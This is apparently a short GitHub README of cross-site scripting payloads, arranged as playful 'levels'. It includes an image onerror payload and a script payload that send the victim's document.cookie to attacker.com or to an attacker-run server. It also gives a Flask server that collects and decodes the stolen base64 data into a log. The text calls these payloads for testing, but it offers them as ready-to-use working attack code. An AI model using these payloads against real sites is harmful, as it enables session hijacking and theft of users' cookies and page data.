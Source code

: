 ## 🐈‍⬛Hide it in an "image"!🐈‍⬛

    <img src="invalid.jpg" onerror="document.location='http://attacker.com?cookie=' + document.cookie;">

after this you're on your own! there are a bunch of payloads for testing xss hahaha

# 🎃Level 1 - Give me your Cookie! 🎃

## ⭐ Attacker

`python -m http.server`

##🌙 Victim

`<script>
    location = 'http://⭐/?data=' + btoa(document.cookie);
</script>`

# 🎃Level 2 - Send me your whole page!🎃

## ⭐ Attacker

You can run this server because you're gonna get a bunch of base64 encoded data and its probably easier to decode it automatically than to mess about with cyberchef hahaha

`python server.py`

```
from flask import Flask, request
import datetime
import base64

app = Flask(__name__)

# Define the log route
@app.route('/log', methods=['GET'])
def log_request():
    # Get the data parameter from the request
    encoded_data = request.args.get('data', '')

    # Decode the base64-encoded data
    try:
        decoded_data = base64.b64decode(encoded_data).decode('utf-8')
    except Exception as e:
        decoded_data = f"Error decoding data: {e}"

    # Log the decoded data with a timestamp
    with open("requests.log", "a") as log_file:
        log_file.write(f"{datetime.datetime.now()}: {decoded_data}\n")

    return "Data logged and decoded successfully.", 200

# Run the app
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
